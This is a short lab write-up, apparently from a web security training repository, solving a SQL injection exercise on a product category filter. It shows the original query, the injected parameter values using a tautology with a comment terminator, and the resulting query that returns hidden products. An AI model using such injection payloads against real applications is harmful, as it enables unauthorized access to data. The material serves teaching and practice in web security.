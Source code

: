 ## Lab #1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
>  This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:
>
> `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
>
> To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased. 

SQL query carried by application
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
```

URL for product category
```
https://websec.net/filter?category=Gifts
https://websec.net/filter?category=Accessories
```

Modified Parameter
```
category=Gifts'+OR+1=1--
category=Accessories'+OR+1=1--
```

Proccessed SQL query:
```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1

SELECT * FROM products WHERE category = 'Accessories' OR 1=1--' AND released = 1
```

The modified query will return all items where either the category is Gifts, or 1 is equal to 1. Since 1=1 is always true, the query will return all items. 

Next: [SQL injection vulnerability allowing login bypass](../02-subverting-app-logic/README.md)